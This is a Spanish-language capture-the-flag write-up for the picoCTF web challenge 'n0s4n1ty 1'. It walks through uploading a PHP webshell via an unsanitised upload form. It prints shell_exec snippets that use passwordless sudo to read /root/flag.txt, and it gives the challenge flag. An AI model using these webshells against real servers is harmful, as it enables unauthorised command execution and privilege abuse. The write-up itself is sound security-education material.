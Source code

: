 ```yaml
---
title: n0s4n1ty
date: 2025-03-29 19:00:00 +0200
author: pablo
categories: [writeup, picoctf]
tags: [picoctf, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

n0s4n1ty 1

>Author: Prince Niyonshuti N.
Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
{: .prompt-tip }

Al lanzar la instancia tenemos acceso a una web donde aparece un formulario para subir un archivo. 
![](view-source:https://lh3.googleusercontent.com/a-/AFdZucpC_6WFBIfaAbPHBwGM9z8SxyM1oV4wB4Ngwp_UyQ=s96-c)

Bueno parece una oportunidad para subir una shell. La forma de aproximarse a estos formularios web es ver si la entrada está sanitizada. 
Sanitizar la entrada significa que a nivel de la aplicación, el código de la misma maneja que tipo de archivos se pueden subir, de que tamaño,
de que extensión y otros filtros que deberían comprobarse pero estos ejercicios suelen ser más sencillos que todo eso. 

The file c99.php has been uploaded Path: uploads/c99.php. Uso [https://github.com/phpwebshell/c99shell]("https://github.com/phpwebshell/c99shell") Pero veo que no funciona y aunque tiene unas cuantas funcionalidades ya integradas con estos entornos no se puede ir tan a lo bestia, no funciona, así que probaré algo más manual. 

Codifico esta web en PHP, como no se sanitiza la entrada el servidor es posible que ejecute todo el código PHP que 
se encuentra dentro de las rutas de la aplicación incluido el directorio de uploads. Así que a subir una _webshell_ toca.
Poco a poco voy comprobando que la cosa funciona, prueba y error, determino la ruta completa hacia /root.

```
<?php
$output = shell_exec("pwd");
echo $output;
?>
```
Tengo resultados, el código se ha ejecutado, ahora sabemos que el archivo que hemos subido está exactamente en:
```/var/www/html/uploads ```

Después de hacer algunos cambios y resubir el archivo varias veces caigo en la cuenta de que con el directorio root no estoy teniendo suerte, añado una salida para comprobar que php se está ejecutando ```echo "Salida commando\n";```, así que añado sudo y descubro la sorpresa, el usuario actual ha sido añadido al fichero sudoers y ni siquiera necesita una password para ejecutar comandos del sistema.

``` 
<?php
$output = shell_exec("sudo ls ../../../../root/");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando flag.txt```

Codifico una última versión para capturar la banderita.
```
<?php
$output = shell_exec("sudo cat ../../../../root/flag.txt");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}```

flag: **picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}**

Un buen ejemplo de como un RFI (Remote file inclusion) se puede convertir en un RCE (Remote code execution). Pues aunque el código PHP se ejecuta del lado del servidor la acción de visitar a la página subida es la que lleva a cabo la ejecución en el servidor. 
Sanitizen sus entradas o perezcan en el camino. 
